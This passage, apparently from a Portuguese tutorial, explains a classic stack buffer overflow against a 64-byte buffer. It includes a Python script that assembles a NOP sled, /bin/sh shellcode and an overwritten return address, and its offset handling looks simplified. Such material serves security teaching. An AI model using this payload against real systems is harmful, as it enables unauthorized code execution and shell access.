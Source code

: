 Como você conhece o endereço da variável `char buff[64]`, você pode preencher o buffer com o shellcode e depois sobrescrever o endereço de retorno com o endereço do início do buffer.

#### 3. **Explicação**:

- **NOP sled**: Uma sequência de instruções `NOP` (`\x90`), que não fazem nada. Isso aumenta a chance de cair no shellcode.
- **Shellcode**: O código que será executado para abrir o terminal.
- **Sobrescrever o endereço de retorno**: Você substitui o endereço de retorno na pilha com o endereço do buffer onde o shellcode foi injetado. Quando a função retorna, a execução continua no shellcode.

#### 4. **Exemplo Completo**:

```python
import struct

# Shellcode para abrir /bin/sh
shellcode = (
    b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
    b"\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
)

# Endereço conhecido da variável buff[64]
buff_address = 0xffffd5f0  # Exemplo fictício, substitua pelo endereço real

# Preencher o buffer com NOPs, shellcode e depois o endereço de retorno
padding = b"\x90" * (64 - len(shellcode))  # NOP sled
payload = padding + shellcode  # Inserir o shellcode no buffer
payload += struct.pack("<I", buff_address)  # Sobrescrever o endereço de retorno com o endereço do buffer

# Exibir o payload em formato que pode ser usado para exploração
print(payload)
```

#### Explicação do payload

A linha `padding = b"\x90" * (64 - len(shellcode))` é utilizada para criar uma sequência de bytes de padding que preencherá o espaço restante no buffer antes do shellcode.

1. **`b"\x90"`**:
   - `\x90` é a instrução **NOP** (No Operation) em linguagem de montagem (assembly) para processadores da família x86.
   - Uma instrução NOP simplesmente diz ao processador para "não fazer nada" por um ciclo de clock. É frequentemente usada para criar o que é chamado de **NOP sled**.

2. **`len(shellcode)`**:
   - Esta função calcula o tamanho (em bytes) do shellcode que você está injetando. Por exemplo, se o shellcode tiver 24 bytes, `len(shellcode)` retornará 24.

3. **`64`**:
   - Este é o tamanho total do buffer (neste caso, `char buff[64]`), que é de 64 bytes.

4. **`64 - len(shellcode)`**:
   - Isso calcula quantos bytes de espaço restam no buffer depois de colocar o shellcode. Se o shellcode tiver 24 bytes, então `64 - 24 = 40`. Ou seja, 40 bytes ainda estão livres no buffer.
